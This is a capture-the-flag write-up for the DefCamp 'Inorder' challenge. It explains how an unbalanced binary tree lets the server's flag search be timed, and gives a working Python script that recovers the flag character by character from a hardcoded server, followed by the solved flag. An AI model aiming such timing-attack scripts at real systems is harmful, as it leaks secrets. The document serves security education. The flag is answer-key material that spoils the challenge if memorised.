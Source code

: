 # Inorder (misc, 308p, 28 solved)

## Description

```  
Our experience with algorithms since high school is quite impressive, and so
is our security expertise. However, I wonder if a good hacker can find
vulnerabilities in this code which may help to leak the flag without
performing a dumb brute force.

Flag format: CTF{message} where:

   message length: 12-20  
   message charset: ASCII 33 - 126

PS: We run this with socat.  
```

In the task we get a simple [python
script](https://raw.githubusercontent.com/TFNS/writeups/master/2020-12-05-DefCampCTF/inorder/inorder.py)

## Task analysis

The idea is pretty simple:

- We can create a binary tree with our own inputs on the server  
- We can add nodes  
- We can search for things in the tree  
- When we quit the server will perform search for the flag in our tree and then send `Bye!`

## Vulnerability

The trick here is that the tree is not balanced automatically.  
We can easily create a very long linear branch by sending identical inputs.

This means that searching in this tree will become slower as the tree grows.  
If we create such long branch, and then exit, the server might need to take
time to search for the "flag" and we can measure this.

## Solution

### Creating test-case

If we create a tree with 10k nodes `x` and then exit, then there are 2 cases:

- exit is slow, therefore `flag < 'x'`  
- exit is quick, therefore `flag >= 'x'`

### Retrieving data

We could try a binary search, but server was not very reliable, so eventually
it was better to make a linear search and observer when we started to get
`slow` responses instead of `quick` ones, and such transition meant we found
right char.

```python  
from time import time

from crypto_commons.netcat.netcat_commons import nc, send,
receive_until_match, receive_until

def main():  
   host = "34.89.211.188"  
   port = 31070  
   known = ''  
   for char in range(33, 127):  
       if char != ord(';') and char != ord(' '):  
           char = chr(char)  
           s = nc(host, port)  
           for i in range(4):  
               x = receive_until_match(s, "Your option: ")  
               payload = "/a " + (';'.join([known + char for _ in range(2047)]))  
               send(s, payload)  
               x = receive_until(s, "\n")  
               x = receive_until_match(s, ".*\\d+")  
           start = time()  
           send(s, '/exit')  
           x = receive_until_match(s, "Bye!")  
           stop = time()  
           print(char, stop - start)  
           s.close()

main()  
```

We need to manually set the `known` part after each character run, but it's
the only way to be sure.  
We can also "verify" by setting `char` we think it is, and also `char+1`.  
If for `char` we're starting with `quick` responses and `char+1` starts
already with `slow` it means we have the right char.

After a while we finally arrive at: `CTF{W3ll_D0N3!$_^_}`  

Original writeup
(https://github.com/TFNS/writeups/tree/master/2020-12-05-DefCampCTF/inorder).